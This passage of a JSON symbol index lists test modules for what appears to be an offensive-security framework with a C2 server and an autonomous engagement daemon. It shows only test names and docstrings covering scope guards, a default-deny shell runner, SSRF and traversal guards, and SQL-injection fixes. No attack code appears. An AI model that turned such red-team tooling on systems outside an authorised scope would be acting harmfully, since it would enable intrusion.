{"doc": "$timestamp is not empty.", "kind": "method", "line": 53, "name": "test_builtin_timestamp", "signature": "def test_builtin_timestamp(self)"}, {"doc": "$nonexistent stays as ${nonexistent}.", "kind": "method", "line": 60, "name": "test_resolve_unresolved", "signature": "def test_resolve_unresolved(self)"}, {"doc": "'hello == hello' is True, 'x == y' is False.", "kind": "method", "line": 66, "name": "test_eval_condition_equals", "signature": "def test_eval_condition_equals(self)"}, {"doc": "'x != y' is True.", "kind": "method", "line": 72, "name": "test_eval_condition_not_equals", "signature": "def test_eval_condition_not_equals(self)"}, {"doc": "'hello =~ ell' is True, 'hello !~ xyz' is True.", "kind": "method", "line": 77, "name": "test_eval_condition_regex", "signature": "def test_eval_condition_regex(self)"}, {"doc": "Numeric comparisons evaluate correctly.", "kind": "method", "line": 83, "name": "test_eval_condition_numeric", "signature": "def test_eval_condition_numeric(self)"}, {"doc": "'hello contains ll' is True, 'abc contains x' is False.", "kind": "method", "line": 91, "name": "test_eval_condition_contains", "signature": "def test_eval_condition_contains(self)"}, {"doc": "'defined $x' is False then True after setting x.", "kind": "method", "line": 97, "name": "test_eval_condition_defined", "signature": "def test_eval_condition_defined(self)"}, {"doc": "Falsy values: false, 0, no, off, empty string are all False.", "kind": "method", "line": 104, "name": "test_eval_condition_fallback_falsy", "signature": "def test_eval_condition_fallback_falsy(self)"}, {"doc": "Truthy values: hello, 1, yes are all True.", "kind": "method", "line": 110, "name": "test_eval_condition_fallback_truthy", "signature": "def test_eval_condition_fallback_truthy(self)"}, {"doc": "dry_run=True captures [dry-run] prefix in print callback.", "kind": "method", "line": 116, "name": "test_dry_run_mode", "signature": "def test_dry_run_mode(self)"}, {"doc": "_skip() follows _if_stack and _skip_depth.", "kind": "method", "line": 125, "name": "test_skip_depth", "signature": "def test_skip_depth(self)"}, {"doc": "if true / echo yes / else / echo no / endif prints 'yes'.", "kind": "method", "line": 143, "name": "test_if_else_endif_true", "signature": "def test_if_else_endif_true(self)"}, {"doc": "if false variant prints 'no'.", "kind": "method", "line": 153, "name": "test_if_else_endif_false", "signature": "def test_if_else_endif_false(self)"}, {"doc": "set x hello / echo $x prints 'hello'.", "kind": "method", "line": 163, "name": "test_set_and_echo", "signature": "def test_set_and_echo(self)"}, {"doc": "for item in a b c / echo $item / endfor prints a, b, c.", "kind": "method", "line": 170, "name": "test_for_loop", "signature": "def test_for_loop(self)"}, {"doc": "for with nothing after 'in' is not parsed as a for loop, runs as raw command.", "kind": "method", "line": 178, "name": "test_for_loop_empty", "signature": "def test_for_loop_empty(self)"}, {"doc": "Basic while loop runs once then exits.", "kind": "method", "line": 187, "name": "test_while_loop", "signature": "def test_while_loop(self)"}, {"doc": "break exits the for loop early.", "kind": "method", "line": 197, "name": "test_break", "signature": "def test_break(self)"}, {"doc": "continue skips the current for iteration.", "kind": "method", "line": 208, "name": "test_continue", "signature": "def test_continue(self)"}, {"doc": "Lines starting with # are ignored.", "kind": "method", "line": 219, "name": "test_comment", "signature": "def test_comment(self)"}, {"doc": "Macro body runs once during main pass (unresolved), then call resolves args.", "kind": "method", "line": 228, "name": "test_macro_and_call", "signature": "def test_macro_and_call(self)"}, {"doc": "spool writes echoed output to file.", "kind": "method", "line": 238, "name": "test_spool", "signature": "def test_spool(self, tmp_path)"}, {"doc": "call nonexistent raises ScriptError.", "kind": "method", "line": 253, "name": "test_undefined_macro_raises", "signature": "def test_undefined_macro_raises(self)"}, {"doc": "Set then unset, echo resolves to ${x} placeholder.", "kind": "method", "line": 258, "name": "test_unset_variable", "signature": "def test_unset_variable(self)"}, {"doc": "Nested if/endif blocks work correctly.", "kind": "method", "line": 267, "name": "test_nested_if", "signature": "def test_nested_if(self)"}]}, {"doc": "Terminal-safe console: colors and glyphs degrade, never leak.", "id": "tests/test_safe_console.py", "kind": "module", "label": "test_safe_console.py", "language": "py", "sha256": "ebe8fad94f43d1fe", "symbol_count": 4, "symbols": [{"doc": "Non-UTF-8 sinks get bracket markers instead of unicode glyphs.", "kind": "function", "line": 20, "name": "test_glyphs_degrade_to_ascii", "signature": "def test_glyphs_degrade_to_ascii(monkeypatch)"}, {"doc": "UTF-8 sinks keep the rich glyphs.", "kind": "function", "line": 32, "name": "test_glyphs_unicode_on_utf8", "signature": "def test_glyphs_unicode_on_utf8(monkeypatch, capsys)"}, {"doc": "Piped sinks receive plain text: no ANSI is ever forced on.", "kind": "function", "line": 41, "name": "test_console_never_forces_color", "signature": "def test_console_never_forces_color()"}, {"doc": "Panels use the ASCII box when unicode is unavailable.", "kind": "function", "line": 52, "name": "test_panel_box_ascii_fallback", "signature": "def test_panel_box_ascii_fallback(monkeypatch)"}]}, {"doc": "TDD tests for the safe subprocess runner contract.  Contract: ``core.safe_subprocess.SafeRunner`` replaces the legacy ``subprocess.run(..., shell=True, ...)`` call sites in :mod:`utils` and :mod:`lazyc2` with a default-deny wrapper that requires an explicit ``allow=True`` and a free-text ``reason`` for every shell invocation.  Invariants:  1. ``run_shell(cmd, allow=False)`` raises ``ShellNotAllowedError``. 2. ``run_shell(cmd, allow=True, reason=\"...\")`` executes the command and appends one JSON line to the audit log. 3. ``run(argv_list)`` is always allowed and never touches the audit log. 4. Both APIs return a ``SafeRunResult`` exposing ``returncode``, ``stdout``, ``stderr``, and ``duration_seconds``. 5. The audit log records ``argv`` (or the raw string), ``reason``, ``returncode``, and the timestamp.", "id": "tests/test_safe_subprocess.py", "kind": "module", "label": "test_safe_subprocess.py", "language": "py", "sha256": "b223fb20d50ad6b0", "symbol_count": 11, "symbols": [{"doc": "``run`` accepts an argv list, never logs, never blocks.", "kind": "class", "line": 35, "name": "TestRunArgv", "signature": "class TestRunArgv"}, {"doc": "``run_shell`` requires explicit opt-in.", "kind": "class", "line": 53, "name": "TestRunShellDefaultDeny", "signature": "class TestRunShellDefaultDeny"}, {"doc": "``run_shell(allow=True, reason=...)`` executes and audits.", "kind": "class", "line": 71, "name": "TestRunShellAllowed", "signature": "class TestRunShellAllowed"}, {"kind": "method", "line": 38, "name": "test_run_returns_completed_result", "signature": "def test_run_returns_completed_result(self)"}, {"kind": "method", "line": 46, "name": "test_run_does_not_audit", "signature": "def test_run_does_not_audit(self, tmp_path)"}, {"kind": "method", "line": 56, "name": "test_default_deny_raises", "signature": "def test_default_deny_raises(self)"}, {"kind": "method", "line": 61, "name": "test_deny_audit_logged", "signature": "def test_deny_audit_logged(self, tmp_path)"}, {"kind": "method", "line": 74, "name": "test_allowed_executes", "signature": "def test_allowed_executes(self)"}, {"kind": "method", "line": 84, "name": "test_allowed_is_audited", "signature": "def test_allowed_is_audited(self, tmp_path)"}, {"kind": "method", "line": 94, "name": "test_empty_reason_rejected", "signature": "def test_empty_reason_rejected(self)"}, {"kind": "method", "line": 99, "name": "test_failed_command_returns_nonzero", "signature": "def test_failed_command_returns_nonzero(self)"}]}, {"doc": "BDD behavior scenarios for the safe subprocess contract.", "id": "tests/test_safe_subprocess_behavior.py", "kind": "module", "label": "test_safe_subprocess_behavior.py", "language": "py", "sha256": "9c6afe877dcaea44", "symbol_count": 3, "symbols": [{"doc": "Given an argv list, ``run`` executes it and writes no audit row.", "kind": "function", "line": 12, "name": "test_given_argv_when_run_then_executes_without_audit", "signature": "def test_given_argv_when_run_then_executes_without_audit(tmp_path)"}, {"doc": "Given a shell call without opt-in, the runner denies and audits.", "kind": "function", "line": 22, "name": "test_given_shell_without_allow_when_called_then_denied", "signature": "def test_given_shell_without_allow_when_called_then_denied(tmp_path)"}, {"doc": "Given a shell call with opt-in and reason, the runner executes and audits.", "kind": "function", "line": 36, "name": "test_given_shell_with_allow_and_reason_when_called_then_executes", "signature": "def test_given_shell_with_allow_and_reason_when_called_then_executes(tmp_path)"}]}, {"doc": "BDD scoped tests for safety gates C01-C03.  Given the guard, traffic and evidence contracts, when I exercise their public verbs, then the acceptance criteria hold.", "id": "tests/test_safety_gates.py", "kind": "module", "label": "test_safety_gates.py", "language": "py", "sha256": "6a6aa47ba161fd1a", "symbol_count": 8, "symbols": [{"doc": "BDD: destructive shell surfaces require approval.", "kind": "function", "line": 10, "name": "test_c01_builtin_rules_block_destructive", "signature": "def test_c01_builtin_rules_block_destructive()"}, {"doc": "BDD: benign calls pass and appear in the audit log.", "kind": "function", "line": 19, "name": "test_c01_allow_passthrough_and_audit", "signature": "def test_c01_allow_passthrough_and_audit()"}, {"doc": "BDD: explicit deny wins and expired ask denies.", "kind": "function", "line": 29, "name": "test_c01_deny_rule_and_expiry", "signature": "def test_c01_deny_rule_and_expiry()"}, {"doc": "BDD: the daemon safety gate maps deny verdicts to skips.", "kind": "function", "line": 44, "name": "test_c01_daemon_gate_blocks_denied_command", "signature": "def test_c01_daemon_gate_blocks_denied_command()"}, {"doc": "BDD: recorded exchanges are queryable with bodies intact.", "kind": "function", "line": 54, "name": "test_c02_record_query_roundtrip", "signature": "def test_c02_record_query_roundtrip(tmp_path)"}, {"doc": "BDD: body fetch outside the vault is rejected.", "kind": "function", "line": 67, "name": "test_c02_path_traversal_blocked", "signature": "def test_c02_path_traversal_blocked(tmp_path)"}, {"doc": "BDD: evidence vault hashes, verifies, and collects garbage.", "kind": "function", "line": 78, "name": "test_c03_put_get_and_gc", "signature": "def test_c03_put_get_and_gc(tmp_path)"}, {"doc": "BDD: corrupted blob bytes fail integrity verification.", "kind": "function", "line": 100, "name": "test_c03_tamper_detected", "signature": "def test_c03_tamper_detected(tmp_path)"}]}, {"doc": "tests/test_scope_bound_auto_gate.py  Coverage for the fully autonomous engage mode (\"real auto mode\").  Test scope: - skills/lazyown_policy.py :: ScopeBoundAutoGate — the headless approval gate that never prompts a human and keeps the authorized scope as the single fail-closed safety boundary of unattended autonomy. - skills/lazyown_policy.py :: _default_in_scope / _normalize_scope — the scope predicate helpers backed by cli/scope_guard.py loaded in isolation. - skills/autonomous_daemon.py :: _engage_run_sync(auto=True) wiring and the best-effort _maybe_generate_report chaining. - End-to-end guarantee: an out-of-scope target under ``enforce`` is DENIED at every step and the command runner is never invoked.", "id": "tests/test_scope_bound_auto_gate.py", "kind": "module", "label": "test_scope_bound_auto_gate.py", "language": "py", "sha256": "4efa9b05edc9f384", "symbol_count": 37, "symbols": [{"doc": "Write *data* to a payload.json inside *tmp_path* and return its path.", "kind": "function", "line": 32, "name": "_write_payload", "signature": "def _write_payload(tmp_path, data)"}, {"doc": "Construct a ScopeBoundAutoGate over a temp payload.", "kind": "function", "line": 39, "name": "_gate", "signature": "def _gate(tmp_path, data, in_scope_fn)"}, {"doc": "Unit tests for the headless, scope-bound approval gate.", "kind": "class", "line": 49, "name": "TestScopeBoundAutoGate", "signature": "class TestScopeBoundAutoGate"}, {"doc": "Integration with the real cli/scope_guard.py predicate.", "kind": "class", "line": 148, "name": "TestDefaultScopePredicate", "signature": "class TestDefaultScopePredicate"}, {"doc": "_engage_run_sync auto wiring and report chaining.", "kind": "class", "line": 183, "name": "TestAutoEngageWiring", "signature": "class TestAutoEngageWiring"}, {"doc": "ICommandRunner double that records every command it is asked to run.", "kind": "class", "line": 237, "name": "_CountingRunner", "signature": "class _CountingRunner"}, {"doc": "End-to-end: unattended run never touches an out-of-scope host.", "kind": "class", "line": 252, "name": "TestFailClosedAutonomy", "signature": "class TestFailClosedAutonomy"}, {"kind": "method", "line": 52, "name": "test_dormant_when_scope_empty", "signature": "def test_dormant_when_scope_empty(self, tmp_path)"}, {"kind": "method", "line": 61, "name": "test_dormant_when_enforcement_off", "signature": "def test_dormant_when_enforcement_off(self, tmp_path)"}, {"kind": "method", "line": 69, "name": "test_approves_in_scope_under_enforce", "signature": "def test_approves_in_scope_under_enforce(self, tmp_path)"}, {"kind": "method", "line": 79, "name": "test_denies_out_of_scope_under_enforce", "signature": "def test_denies_out_of_scope_under_enforce(self, tmp_path)"}, {"kind": "method", "line": 92, "name": "test_warns_but_approves_out_of_scope", "signature": "def test_warns_but_approves_out_of_scope(self, tmp_path)"}, {"kind": "method", "line": 103, "name": "test_default_enforcement_is_warn", "signature": "def test_default_enforcement_is_warn(self, tmp_path)"}, {"kind": "method", "line": 111, "name": "test_reads_payload_at_request_time", "signature": "def test_reads_payload_at_request_time(self, tmp_path)"}, {"kind": "method", "line": 123, "name": "test_missing_payload_is_dormant", "signature": "def test_missing_payload_is_dormant(self, tmp_path)"}, {"kind": "method", "line": 129, "name": "test_never_blocks_returns_synchronously", "signature": "def test_never_blocks_returns_synchronously(self, tmp_path)"}, {"kind": "method", "line": 140, "name": "test_honours_approval_gate_interface", "signature": "def test_honours_approval_gate_interface(self, tmp_path)"}, {"kind": "method", "line": 151, "name": "test_default_predicate_matches_cidr", "signature": "def test_default_predicate_matches_cidr(self, tmp_path)"}, {"kind": "method", "line": 160, "name": "test_normalize_scope_drops_blanks", "signature": "def test_normalize_scope_drops_blanks(self)"}, {"kind": "method", "line": 169, "name": "test_in_scope_fails_closed_on_predicate_error", "signature": "def test_in_scope_fails_closed_on_predicate_error(self, tmp_path)"}, {"kind": "method", "line": 186, "name": "test_auto_wires_scope_bound_gate_and_chains_report", "signature": "def test_auto_wires_scope_bound_gate_and_chains_report(self, monkeypatch)"}, {"kind": "method", "line": 206, "name": "test_non_auto_uses_default_gate_and_no_report", "signature": "def test_non_auto_uses_default_gate_and_no_report(self, monkeypatch)"}, {"kind": "method", "line": 224, "name": "test_maybe_generate_report_is_best_effort", "signature": "def test_maybe_generate_report_is_best_effort(self, monkeypatch)"}, {"kind": "method", "line": 240, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 243, "name": "run", "signature": "def run(self, command, timeout)"}, {"kind": "method", "line": 248, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 256, "name": "temp_engagement", "signature": "def temp_engagement(self, tmp_path)"}, {"kind": "method", "line": 274, "name": "test_out_of_scope_denies_all_steps_runner_never_called", "signature": "def test_out_of_scope_denies_all_steps_runner_never_called(self, temp_engagement)"}, {"kind": "method", "line": 289, "name": "test_in_scope_target_executes_steps", "signature": "def test_in_scope_target_executes_steps(self, temp_engagement)"}, {"kind": "function", "line": 172, "name": "_boom", "signature": "def _boom(target, entries)"}, {"kind": "class", "line": 192, "name": "_SpyOrchestrator", "signature": "class _SpyOrchestrator"}, {"kind": "class", "line": 211, "name": "_SpyOrchestrator", "signature": "class _SpyOrchestrator"}, {"kind": "function", "line": 227, "name": "_explode", "signature": "def _explode()"}, {"kind": "method", "line": 193, "name": "__init__", "signature": "def __init__(self, target, max_switches_per_step, approval_gate)"}, {"kind": "method", "line": 197, "name": "run", "signature": "def run(self)"}, {"kind": "method", "line": 212, "name": "__init__", "signature": "def __init__(self, target, max_switches_per_step, approval_gate)"}, {"kind": "method", "line": 216, "name": "run", "signature": "def run(self)"}]}, {"doc": "Test suite for cli/scope_guard.py.  Covers the pure scope-authorization logic in isolation: mode coercion, scope normalisation from every accepted form, CIDR/IP/hostname matching, the offensive-command classifier, and every branch of the fail-open decision matrix. A drift test pins the offensive category strings against the canonical definitions in utils.py.", "id": "tests/test_scope_guard.py", "kind": "module", "label": "test_scope_guard.py", "language": "py", "sha256": "21b172e77ebc52c7", "symbol_count": 46, "symbols": [{"kind": "class", "line": 33, "name": "TestScopeMode", "signature": "class TestScopeMode"}, {"kind": "class", "line": 53, "name": "TestNormalizeScope", "signature": "class TestNormalizeScope"}, {"kind": "class", "line": 80, "name": "TestTargetInScope", "signature": "class TestTargetInScope"}, {"kind": "class", "line": 119, "name": "TestBuildOffensiveCommands", "signature": "class TestBuildOffensiveCommands"}, {"kind": "function", "line": 135, "name": "_guard", "signature": "def _guard(scope, mode, offensive_names)"}, {"kind": "class", "line": 140, "name": "TestScopeGuardEvaluate", "signature": "class TestScopeGuardEvaluate"}, {"doc": "Read-only operational commands never trip scope enforcement.", "kind": "class", "line": 194, "name": "TestScopeExemptions", "signature": "class TestScopeExemptions"}, {"doc": "The hardcoded offensive category strings must stay in sync with utils.", "kind": "class", "line": 210, "name": "TestOffensiveCategoryDrift", "signature": "class TestOffensiveCategoryDrift"}, {"kind": "method", "line": 34, "name": "test_from_value_passthrough", "signature": "def test_from_value_passthrough(self)"}, {"kind": "method", "line": 45, "name": "test_from_value_strings", "signature": "def test_from_value_strings(self, raw, expected)"}, {"kind": "method", "line": 49, "name": "test_unknown_defaults_to_warn", "signature": "def test_unknown_defaults_to_warn(self, raw)"}, {"kind": "method", "line": 54, "name": "test_none", "signature": "def test_none(self)"}, {"kind": "method", "line": 57, "name": "test_list", "signature": "def test_list(self)"}, {"kind": "method", "line": 60, "name": "test_tuple_and_set", "signature": "def test_tuple_and_set(self)"}, {"kind": "method", "line": 64, "name": "test_json_array_string", "signature": "def test_json_array_string(self)"}, {"kind": "method", "line": 67, "name": "test_comma_separated_string", "signature": "def test_comma_separated_string(self)"}, {"kind": "method", "line": 70, "name": "test_space_separated_string", "signature": "def test_space_separated_string(self)"}, {"kind": "method", "line": 73, "name": "test_empty_string", "signature": "def test_empty_string(self)"}, {"kind": "method", "line": 76, "name": "test_unsupported_type", "signature": "def test_unsupported_type(self)"}, {"kind": "method", "line": 81, "name": "test_empty_target", "signature": "def test_empty_target(self)"}, {"kind": "method", "line": 84, "name": "test_ip_in_cidr", "signature": "def test_ip_in_cidr(self)"}, {"kind": "method", "line": 87, "name": "test_ip_outside_cidr", "signature": "def test_ip_outside_cidr(self)"}, {"kind": "method", "line": 90, "name": "test_bare_ip_match", "signature": "def test_bare_ip_match(self)"}, {"kind": "method", "line": 93, "name": "test_bare_ip_mismatch", "signature": "def test_bare_ip_mismatch(self)"}, {"kind": "method", "line": 96, "name": "test_exact_hostname", "signature": "def test_exact_hostname(self)"}, {"kind": "method", "line": 99, "name": "test_subdomain_match", "signature": "def test_subdomain_match(self)"}, {"kind": "method", "line": 102, "name": "test_wildcard_match", "signature": "def test_wildcard_match(self)"}, {"kind": "method", "line": 106, "name": "test_hostname_not_in_cidr", "signature": "def test_hostname_not_in_cidr(self)"}, {"kind": "method", "line": 109, "name": "test_ip_not_matched_by_hostname_entry", "signature": "def test_ip_not_matched_by_hostname_entry(self)"}, {"kind": "method", "line": 112, "name": "test_ipv6_in_cidr", "signature": "def test_ipv6_in_cidr(self)"}, {"kind": "method", "line": 115, "name": "test_blank_entries_ignored", "signature": "def test_blank_entries_ignored(self)"}, {"kind": "method", "line": 120, "name": "test_selects_offensive_only", "signature": "def test_selects_offensive_only(self)"}, {"kind": "method", "line": 131, "name": "test_empty", "signature": "def test_empty(self)"}, {"kind": "method", "line": 141, "name": "test_mode_off_is_noop", "signature": "def test_mode_off_is_noop(self)"}, {"kind": "method", "line": 146, "name": "test_no_scope_allows", "signature": "def test_no_scope_allows(self)"}, {"kind": "method", "line": 151, "name": "test_benign_command_allowed", "signature": "def test_benign_command_allowed(self)"}, {"kind": "method", "line": 156, "name": "test_empty_target_allowed", "signature": "def test_empty_target_allowed(self)"}, {"kind": "method", "line": 160, "name": "test_in_scope_allowed", "signature": "def test_in_scope_allowed(self)"}, {"kind": "method", "line": 165, "name": "test_out_of_scope_warn_allows_with_reason", "signature": "def test_out_of_scope_warn_allows_with_reason(self)"}, {"kind": "method", "line": 172, "name": "test_out_of_scope_enforce_blocks", "signature": "def test_out_of_scope_enforce_blocks(self)"}, {"kind": "method", "line": 179, "name": "test_classifier_exception_fails_open", "signature": "def test_classifier_exception_fails_open(self)"}, {"kind": "method", "line": 187, "name": "test_decision_is_value_object", "signature": "def test_decision_is_value_object(self)"}, {"kind": "method", "line": 197, "name": "test_exempt_command_allowed_out_of_scope", "signature": "def test_exempt_command_allowed_out_of_scope(self)"}, {"kind": "method", "line": 203, "name": "test_exempt_set_covers_offensive_operational_surfaces", "signature": "def test_exempt_set_covers_offensive_operational_surfaces(self)"}, {"kind": "method", "line": 213, "name": "test_categories_exist_in_utils", "signature": "def test_categories_exist_in_utils(self)"}, {"kind": "function", "line": 180, "name": "boom", "signature": "def boom(_name)"}]}, {"doc": "Integration tests for the scope guard wired into LazyOwnShell.  These exercise the thin shell glue (``_scope_check``, ``_resolve_offensive``, ``_scope_confirm``, ``_scope_entries``) by invoking the real, unbound methods against a lightweight stub, so the full (heavy) shell constructor is never run. The pure decision logic lives in :mod:`cli.scope_guard` and is covered by ``tests/test_scope_guard.py``.", "id": "tests/test_scope_guard_integration.py", "kind": "module", "label": "test_scope_guard_integration.py", "language": "py", "sha256": "11c925749fa6a1f9", "symbol_count": 24, "symbols": [{"kind": "function", "line": 28, "name": "_make_stub", "signature": "def _make_stub(params, offensive, aliases, confirm)"}, {"kind": "class", "line": 41, "name": "TestResolveOffensive", "signature": "class TestResolveOffensive"}, {"kind": "class", "line": 59, "name": "TestScopeCheck", "signature": "class TestScopeCheck"}, {"kind": "class", "line": 120, "name": "TestScopeConfirmNonInteractive", "signature": "class TestScopeConfirmNonInteractive"}, {"kind": "class", "line": 128, "name": "TestScopeEntries", "signature": "class TestScopeEntries"}, {"kind": "class", "line": 138, "name": "TestOffensiveClassificationIsBuilt", "signature": "class TestOffensiveClassificationIsBuilt"}, {"kind": "method", "line": 42, "name": "test_direct_offensive", "signature": "def test_direct_offensive(self)"}, {"kind": "method", "line": 46, "name": "test_benign", "signature": "def test_benign(self)"}, {"kind": "method", "line": 50, "name": "test_alias_to_offensive", "signature": "def test_alias_to_offensive(self)"}, {"kind": "method", "line": 54, "name": "test_alias_to_benign", "signature": "def test_alias_to_benign(self)"}, {"kind": "method", "line": 60, "name": "test_no_scope_allows", "signature": "def test_no_scope_allows(self)"}, {"kind": "method", "line": 67, "name": "test_in_scope_allows", "signature": "def test_in_scope_allows(self)"}, {"kind": "method", "line": 74, "name": "test_benign_command_allows", "signature": "def test_benign_command_allows(self)"}, {"kind": "method", "line": 81, "name": "test_warn_mode_allows_out_of_scope", "signature": "def test_warn_mode_allows_out_of_scope(self, capsys)"}, {"kind": "method", "line": 88, "name": "test_enforce_mode_blocks_out_of_scope", "signature": "def test_enforce_mode_blocks_out_of_scope(self)"}, {"kind": "method", "line": 96, "name": "test_enforce_mode_confirmation_allows", "signature": "def test_enforce_mode_confirmation_allows(self)"}, {"kind": "method", "line": 104, "name": "test_off_mode_allows", "signature": "def test_off_mode_allows(self)"}, {"kind": "method", "line": 111, "name": "test_malformed_params_fail_open", "signature": "def test_malformed_params_fail_open(self)"}, {"kind": "method", "line": 121, "name": "test_non_tty_refuses", "signature": "def test_non_tty_refuses(self, monkeypatch)"}, {"kind": "method", "line": 129, "name": "test_normalizes_list", "signature": "def test_normalizes_list(self)"}, {"kind": "method", "line": 133, "name": "test_normalizes_string", "signature": "def test_normalizes_string(self)"}, {"kind": "method", "line": 139, "name": "test_build_offensive_from_categories", "signature": "def test_build_offensive_from_categories(self)"}, {"kind": "function", "line": 144, "name": "_do_offensive", "signature": "def _do_offensive()"}, {"kind": "function", "line": 147, "name": "_do_benign", "signature": "def _do_benign()"}]}, {"doc": "SDD regression tests for the CodeQL security batch.  Pins the fixed behavior so future changes cannot silently reintroduce the flagged flaws: proxy SSRF guard, verified TLS by default, webhook SSRF guard, encrypted channel secrets at rest, owner-only secret files, traversal-proof yaml browsing, generic error responses, and a tightened emoji pattern. Every test fails against the pre-fix code (verified by mutation) and passes with the fix.", "id": "tests/test_security_codeql_batch.py", "kind": "module", "label": "test_security_codeql_batch.py", "language": "py", "sha256": "51c61f7d4d524c56", "symbol_count": 37, "symbols": [{"doc": "Load the C2 server file (lazyc2.py) explicitly.\n\n``import lazyc2`` resolves to the ``lazyc2/`` package, not the\nserver file, so the server module is loaded once from its path.", "kind": "function", "line": 27, "name": "_server", "signature": "def _server()"}, {"doc": "CONTRACT: client-controlled proxy targets are validated server-side.", "kind": "class", "line": 45, "name": "TestProxySsrfGuard", "signature": "class TestProxySsrfGuard"}, {"doc": "CONTRACT: upstream TLS verifies by default; insecure needs opt-in.", "kind": "class", "line": 92, "name": "TestProxyTlsDefaults", "signature": "class TestProxyTlsDefaults"}, {"doc": "CONTRACT: webhook delivery cannot be steered to metadata/loopback.", "kind": "class", "line": 116, "name": "TestWebhookSsrfGuard", "signature": "class TestWebhookSsrfGuard"}, {"doc": "CONTRACT: notifier passwords are scrubbed in transit, sealed at rest.", "kind": "class", "line": 149, "name": "TestChannelSecrets", "signature": "class TestChannelSecrets"}, {"doc": "CONTRACT: fallback token never reaches logs; owner-only file instead.", "kind": "class", "line": 186, "name": "TestReverseShellFallback", "signature": "class TestReverseShellFallback"}, {"doc": "CONTRACT: yaml browsing stays inside the atomic base directory.", "kind": "class", "line": 207, "name": "TestViewYamlTraversal", "signature": "class TestViewYamlTraversal"}, {"doc": "Call a @login_required view as an authenticated operator.", "kind": "function", "line": 251, "name": "_login_and_call", "signature": "def _login_and_call(monkeypatch, tmp_path, view, path)"}, {"doc": "CONTRACT: exception text never reaches HTTP clients (canary tests).", "kind": "class", "line": 267, "name": "TestGenericErrorResponses", "signature": "class TestGenericErrorResponses"}, {"doc": "CONTRACT: emoji detection without an over-broad catch-all range.", "kind": "class", "line": 357, "name": "TestEmojiPattern", "signature": "class TestEmojiPattern"}, {"kind": "method", "line": 48, "name": "test_allows_lab_targets_by_default", "signature": "def test_allows_lab_targets_by_default(self)"}, {"kind": "method", "line": 55, "name": "test_blocks_cloud_metadata", "signature": "def test_blocks_cloud_metadata(self)"}, {"kind": "method", "line": 65, "name": "test_blocks_malformed_targets", "signature": "def test_blocks_malformed_targets(self)"}, {"kind": "method", "line": 81, "name": "test_blocks_private_when_operator_opts_out", "signature": "def test_blocks_private_when_operator_opts_out(self, monkeypatch)"}, {"kind": "method", "line": 95, "name": "test_verified_context_by_default", "signature": "def test_verified_context_by_default(self, monkeypatch)"}, {"kind": "method", "line": 106, "name": "test_insecure_only_with_explicit_opt_in", "signature": "def test_insecure_only_with_explicit_opt_in(self, monkeypatch)"}, {"kind": "method", "line": 119, "name": "test_blocks_metadata_and_userinfo_and_ftp", "signature": "def test_blocks_metadata_and_userinfo_and_ftp(self)"}, {"kind": "method", "line": 132, "name": "test_loopback_needs_explicit_opt_in", "signature": "def test_loopback_needs_explicit_opt_in(self, monkeypatch)"}, {"kind": "method", "line": 142, "name": "test_allows_public_webhook", "signature": "def test_allows_public_webhook(self)"}, {"kind": "method", "line": 152, "name": "test_scrub_masks_passwords_and_tokens", "signature": "def test_scrub_masks_passwords_and_tokens(self)"}, {"kind": "method", "line": 160, "name": "test_password_roundtrip_with_key", "signature": "def test_password_roundtrip_with_key(self, monkeypatch)"}, {"kind": "method", "line": 168, "name": "test_password_roundtrip_without_key", "signature": "def test_password_roundtrip_without_key(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 175, "name": "test_channel_store_is_owner_only", "signature": "def test_channel_store_is_owner_only(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 189, "name": "test_secret_not_logged_and_file_restricted", "signature": "def test_secret_not_logged_and_file_restricted(self, tmp_path, monkeypatch, caplog)"}, {"kind": "method", "line": 211, "name": "_client", "signature": "def _client(monkeypatch, tmp_path)"}, {"kind": "method", "line": 221, "name": "test_blocks_traversal_inputs", "signature": "def test_blocks_traversal_inputs(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 228, "name": "test_serves_valid_subdir_and_ignores_symlink_escape", "signature": "def test_serves_valid_subdir_and_ignores_symlink_escape(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 270, "name": "test_broadcast_hides_exception", "signature": "def test_broadcast_hides_exception(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 283, "name": "test_loop_graph_hides_exception", "signature": "def test_loop_graph_hides_exception(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 295, "name": "test_guard_lookup_hides_exception", "signature": "def test_guard_lookup_hides_exception(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 310, "name": "test_mentions_hide_exception", "signature": "def test_mentions_hide_exception(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 323, "name": "test_sse_stream_hides_exception", "signature": "def test_sse_stream_hides_exception(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 340, "name": "test_api_defaults_hide_exception", "signature": "def test_api_defaults_hide_exception(self, monkeypatch)"}, {"kind": "method", "line": 360, "name": "test_blocks_common_emoji_and_clean_text_passes", "signature": "def test_blocks_common_emoji_and_clean_text_passes(self)"}, {"kind": "method", "line": 366, "name": "test_no_mega_range_in_source", "signature": "def test_no_mega_range_in_source(self)"}, {"kind": "function", "line": 315, "name": "_boom", "signature": "def _boom()"}, {"kind": "function", "line": 345, "name": "_boom", "signature": "def _boom()"}]}, {"doc": "SDD+TDD+BDD tests for security hardening contracts.  Contract: Every security fix in this batch has a corresponding test that verifies the fix works and would detect regression. Tests are written BEHAVIOURALLY (BDD-style) so they read as specifications.  Covers: - SQL injection prevention in modules/db.py (table name allowlist) - LIKE wildcard escaping in host_find - Timing-attack-resistant auth in lazyc2.py (hmac.compare_digest) - SafeRunner uses shell=False internally - pickle removed from utils.py - Hardcoded secrets eliminated from caldera config - Duplicate config constants consolidated - Credential encryption warning logging", "id": "tests/test_security_hardening.py", "kind": "module", "label": "test_security_hardening.py", "language": "py", "sha256": "384c77811eb6b61b", "symbol_count": 36, "symbols": [{"doc": "CONTRACT: The table parameter in export_csv must be validated against\nan allowlist BEFORE any SQL is constructed. Any value not in VALID_TABLES\nmust raise ValueError immediately.", "kind": "class", "line": 34, "name": "TestSQLInjectionPrevention", "signature": "class TestSQLInjectionPrevention"}, {"doc": "CONTRACT: Special LIKE characters (%, _, \\) in user queries must be\nescaped so an attacker cannot craft patterns that match unintended rows.", "kind": "class", "line": 84, "name": "TestLIKEEscapePrevention", "signature": "class TestLIKEEscapePrevention"}, {"doc": "CONTRACT: Credential comparison in check_auth must use constant-time\ncomparison (hmac.compare_digest) to prevent timing side-channel attacks.", "kind": "class", "line": 132, 